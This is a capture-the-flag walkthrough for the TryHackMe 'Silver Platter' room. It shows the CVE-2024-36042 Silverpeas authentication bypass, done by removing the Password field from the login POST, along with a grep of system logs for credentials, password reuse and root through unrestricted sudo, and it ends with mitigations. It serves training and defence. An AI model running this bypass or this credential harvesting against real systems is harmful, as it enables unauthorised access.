




# Silver Platter


> A web-focused box built around a real CVE in Silverpeas (an authentication bypass), topped off with log-diving for credentials and a classic over-permissive `sudo` rule for root.

**Task:** breach the Hack Smarter Security server, find the hidden flags, and prove their password policy (checked against `rockyou.txt`) doesn't save them.

**Room link:** https://tryhackme.com/room/silverplatter

No guided questions here — just two flags (`user.txt` and `root.txt`) to find by working out the path yourself.

---

## 1. Verify the machine is running

```bash
ping -c 3 10.128.146.168
```

- `-c 3` sends exactly 3 ICMP echo requests and then stops, instead of pinging forever.

```
PING 10.128.146.168 (10.128.146.168) 56(84) bytes of data.
64 bytes from 10.128.146.168: icmp_seq=1 ttl=62 time=16.3 ms
64 bytes from 10.128.146.168: icmp_seq=2 ttl=62 time=15.4 ms
64 bytes from 10.128.146.168: icmp_seq=3 ttl=62 time=14.3 ms

--- 10.128.146.168 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2003ms
rtt min/avg/max/mdev = 14.340/15.361/16.306/0.804 ms
```

0% packet loss confirms the machine is up and reachable.

## 2. Port scanning with Nmap

```bash
nmap -sC -sV 10.128.146.168
```

- `-sC` runs Nmap's **default script set** (`--script=default`) against every open port — safe, non-intrusive NSE scripts that grab extra banner/version/config info (e.g. `http-title`, `ssh-hostkey`).
- `-sV` enables **version detection**: instead of just saying "port 80 is open", Nmap probes the service and tries to identify the exact product/version (e.g. `nginx 1.18.0`).
- No `-p` is given, so Nmap scans its default list of the 1000 most common TCP ports.

```
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.9p1 Ubuntu 3ubuntu0.4
80/tcp   open  http       nginx 1.18.0 (Ubuntu)
|_http-title: Hack Smarter Security
8080/tcp open  http-proxy
|_http-title: Error
```

Three TCP ports are open:

| Port | Service     | Version                        |
|------|-------------|---------------------------------|
| 22   | SSH         | OpenSSH 8.9p1 (Ubuntu)          |
| 80   | HTTP        | nginx 1.18.0 (Ubuntu)           |
| 8080 | HTTP-proxy  | Unidentified (404 on everything)|

Port 22 is standard SSH, port 80 serves a normal site, and port 8080 answers HTTP but returns a generic 404 for every path — which usually means there's a web app mounted under a non-root path rather than at `/`.

## 3. Looking at the website on port 80

The index page is just a static marketing page for "Hack Smarter Security". Walking through the other pages and their source finds nothing interesting — except the **contact** page:



It names their product manager and gives his username for an internal platform called **Silverpeas**: `scr1ptkiddy`. Nothing to do with it yet, but worth keeping.

## 4. Directory discovery

```bash
ffuf -u "http://10.128.146.168/FUZZ" \
     -w /home/verykraken/GitClones/SecLists/Discovery/Web-Content/combined_directories.txt:FUZZ \
     -ic -c
```

- `-u "http://.../FUZZ"` is the target URL, with `FUZZ` marking where each wordlist entry gets substituted.
- `-w path:FUZZ` points to the wordlist and binds it to the `FUZZ` keyword.
- `-ic` ("ignore comments") skips comment lines in the wordlist.
- `-c` colourises the output for readability.

```
images         [Status: 301, Size: 178, Words: 6, Lines: 8]
assets         [Status: 301, Size: 178, Words: 6, Lines: 8]
index.html     [Status: 200, Size: 14124, Words: 926, Lines: 346]
.              [Status: 200, Size: 14124, Words: 926, Lines: 346]
```

Just static asset folders — nothing to exploit on port 80 itself. Fuzzing port 8080 the same way is a dead end too (every path 404s), which points at an app that lives under its own fixed mount path rather than at the webroot.

Since the contact page already named **Silverpeas**, the next logical guess is its default install path: `/silverpeas`. That hits:

```
http://10.128.146.168:8080/silverpeas/defaultLogin.jsp
```



## 5. Trying default credentials

Silverpeas documentation lists `SilverAdmin` / `SilverAdmin` as the default admin login:

> Once started, you can access Silverpeas through the following url: http://localhost:8000/silverpeas, using the default credentials `SilverAdmin`/`SilverAdmin`.

That login fails — the password has clearly been changed. We do have a real username from the contact page (`scr1ptkiddy`) but not its password, so brute-forcing isn't the way in (and it's exactly the kind of noisy, rockyou-dependent attack the room's intro warns won't work). Time to look for a known vulnerability in Silverpeas instead.

## 6. Finding the vulnerability

Searching for Silverpeas exploits turns up **CVE-2024-36042 — Silverpeas Authentication Bypass**.

**What the bug actually is:** a normal login POSTs all three fields to `AuthenticationServlet`:

```
POST /silverpeas/AuthenticationServlet HTTP/2
Host: 212.129.58.88
Content-Type: application/x-www-form-urlencoded

Login=SilverAdmin&Password=SilverAdmin&DomainId=0
```

With a wrong password this correctly fails and redirects back to the login page with an error. But Silverpeas' authentication logic doesn't handle a **missing** `Password` parameter the same way it handles a wrong one — if the field is dropped from the request entirely instead of just being wrong, the check that's supposed to validate the credential never runs, and the server treats the login as successful:

```
POST /silverpeas/AuthenticationServlet HTTP/2
Host: 212.129.58.88
Content-Type: application/x-www-form-urlencoded

Login=SilverAdmin&DomainId=0
```

This logs you in as whatever `Login` value you supplied, as a full super-admin session — it works for *any* valid username, not just `SilverAdmin`.

## 7. Exploiting it with Burp Suite

We already have one confirmed valid username from the contact page: `scr1ptkiddy`. Opening Burp Suite and submitting the login form with any password captures the request:



```
Login=scr1ptkiddy&Password=%60&DomainId=0
```

Deleting the `Password=%60&` segment entirely — not blanking it, **removing** it — and forwarding the request:

```
Login=scr1ptkiddy&DomainId=0
```

...logs us straight in as `scr1ptkiddy`:



## 8. Escalating inside Silverpeas

The user directory inside Silverpeas also lists an `Administrateur` account and a `Manager` account. Repeating the exact same bypass with `Login=Administrateur` fails with a "Technical problem" error — that account is likely locked down differently — but trying it with `Login=Manager` works, logging us in as a second, higher-privileged account.

From the `Manager` session there's one unread notification sent by `Administrateur`. Reading it:

> Dude how do you always forget the SSH password? Use a password manager and quit using your silly sticky notes.
>
> Username: tim
> Password: cm0nt!md0ntf0rg3tth!spa$$w0rdagainlol

## 9. Logging in over SSH and grabbing the user flag

```bash
ssh tim@10.128.146.168
```

Using the password from the notification gets us a shell as `tim`:

```
tim@ip-10-128-146-168:~$ ls
user.txt
tim@ip-10-128-146-168:~$ cat user.txt
THM{...}
```

First flag down. Now to find a way to root.

## 10. Enumerating for privilege escalation

```bash
tim@ip-10-128-146-168:~$ id
uid=1001(tim) gid=1001(tim) groups=1001(tim),4(adm)
```

`tim` belongs to the **`adm`** group, which on Ubuntu grants read access to most system logs under `/var/log` — logs often end up holding secrets that were never meant to be persisted (passwords typed as command arguments, env vars, etc.).

```bash
grep -Ri 'password' /var/log 2>/dev/null
```

- `-R` searches recursively through `/var/log` and its subdirectories/rotated files.
- `-i` makes the match case-insensitive (`Password`, `PASSWORD`, etc. all match).
- `2>/dev/null` discards "permission denied" noise from log files `tim` still can't read.

This surfaces an old `auth.log` entry recording the commands `tyler` used to stand up the app via Docker:

```
sudo docker run --name postgresql -d -e POSTGRES_PASSWORD=_Zd_zx7N823/ ...
sudo docker run --name silverpeas -p 8080:8000 -d -e DB_NAME=Silverpeas \
     -e DB_USER=silverpeas -e DB_PASSWORD=_Zd_zx7N823/ ... --link postgresql:database \
     sivlerpeas:silverpeas-6.3.1
```

The same string (`_Zd_zx7N823/`) was reused as both the Postgres superuser password and the Silverpeas app's database password — a classic password-reuse mistake.

```bash
tim@ip-10-128-146-168:~$ ls -la ..
drwxr-x--- 5 tyler tyler 4096 Dec 13  2023 tyler
```

There's another user, `tyler`, who we don't have a shell as yet.

## 11. Credential reuse into `tyler`

Since `tyler` is the one who ran those Docker commands, it's worth trying the same password for their own account login — people who reuse passwords between a database and a deployment script often reuse them for their own account too:

```bash
tim@ip-10-128-146-168:~$ su tyler
Password: 
tyler@ip-10-128-146-168:/home/tim$
```

It works — the password leaked in `auth.log.2` for the Docker containers turned out to be `tyler`'s own login password too.

## 12. Privilege escalation via `sudo`

```bash
tyler@ip-10-128-146-168:/home/tim$ sudo -l
```

- `sudo -l` **l**ists the commands the current user is permitted to run via `sudo`, without actually running anything.

```
User tyler may run the following commands on ip-10-128-146-168:
    (ALL : ALL) ALL
```

`(ALL : ALL) ALL` means `tyler` can run **any command, as any user (including root), on this host** — effectively unrestricted sudo access. No GTFOBins trick needed here; we can just ask for a root shell directly:

```bash
tyler@ip-10-128-146-168:/home/tim$ sudo /bin/bash -p
root@ip-10-128-146-168:/home/tim#
```

- `sudo` runs the command as root, which `tyler`'s `(ALL : ALL) ALL` rule permits unconditionally.
- `-p` tells `bash` to run in **privileged mode**: normally, when a shell's real and effective UIDs differ (as they do right after `sudo` hands over root), `bash` drops its elevated privileges for safety; `-p` disables that behaviour so the shell keeps acting as root instead of silently de-escalating.

```bash
root@ip-10-128-146-168:/home/tim# id
uid=0(root) gid=0(root) groups=0(root)
```

We're root.

## 13. Grabbing the root flag

```bash
root@ip-10-128-146-168:~# cd /root
root@ip-10-128-146-168:~# ls
root.txt  snap  start_docker_containers.sh
root@ip-10-128-146-168:~# cat root.txt
THM{...}
```

Second flag found. Room solved.

## Takeaways

- **Real-world CVE exploitation:** CVE-2024-36042 is a great example of how a logic flaw (missing-parameter handling, not just a wrong value) can completely undermine an authentication check — the fix isn't "validate the password harder", it's "require the field to be present at all".
- **Username disclosure matters:** a name dropped on a public "contact us" page became the login that got us into the application in the first place.
- **Logs are a goldmine for `adm`-group users:** commands that embed secrets as CLI arguments (`-e POSTGRES_PASSWORD=...`) get written straight into shell history and `auth.log`, readable by anyone in `adm`.
- **Password reuse compounds every other mistake:** the same string secured a database, an application, *and* a human user account. One leak, three ways in.
- **Unrestricted `sudo`** (`ALL : ALL`) is equivalent to handing out root outright — no GTFOBins trick is even required once you have it.

**Mitigation:**
- Patch Silverpeas to a version with CVE-2024-36042 fixed, and reject authentication requests missing required parameters by default (fail closed, not open).
- Avoid exposing internal usernames on public pages where possible, and don't reuse one identity's exposure as a trust anchor.
- Never embed credentials in process arguments or environment variables that land in shell history/log files; use secrets managers or Docker secrets instead.
- Enforce unique passwords per account/service — a password manager is cheaper than a breach.
- Apply least privilege for `sudo`: scope rules to the specific binaries a user actually needs, never a blanket `ALL : ALL`.